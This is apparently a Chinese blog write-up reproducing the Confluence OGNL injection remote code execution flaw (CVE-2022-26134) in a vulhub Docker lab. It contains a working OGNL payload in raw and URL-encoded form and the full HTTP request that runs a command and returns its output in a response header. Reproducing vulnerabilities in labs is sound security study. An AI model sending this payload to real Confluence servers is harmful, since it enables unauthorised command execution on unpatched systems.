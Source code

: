 # 原创
：  Confluence OGNL表达式注入命令执行漏洞（CVE-2022-26134）vulhub漏洞复现

# Confluence OGNL表达式注入命令执行漏洞（CVE-2022-26134）vulhub漏洞复现

**Confluence OGNL表达式注入命令执行漏洞（CVE-2022-26134）**

Atlassian Confluence是企业广泛使用的wiki系统。2022年6月2日Atlassian官方发布了一则安全更新，通告了一个严重且已在利用的代码执行漏洞，攻击者利用这个漏洞即可无需任何条件在Confluence中执行任意命令。

**漏洞复现**

`cd vulhub-master/`

`cd confluence/`

`cd CVE-2022-26134/`

`docker-compose up -d`

访问`192.168.126.128:8090`进入安装页面，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/df5814bafdfd4e058a3d1acb98dcca08.png"/>

点击next

PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。

next<br/> <img alt="" src="https://img-blog.csdnimg.cn/8a9f6e9bd00447dbbc1eef28626e1e37.png"/>

登录

**攻击准备**，burpsuite抓包

构造payload：`/${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}/`

url编码：`/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/`

发送如下数据包：

`GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1 Host: 192.168.126.128:8090 Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9 Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Connection: close`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/b4c7105b4223483fa3b0758896759a7a.png"/>

成功获取id
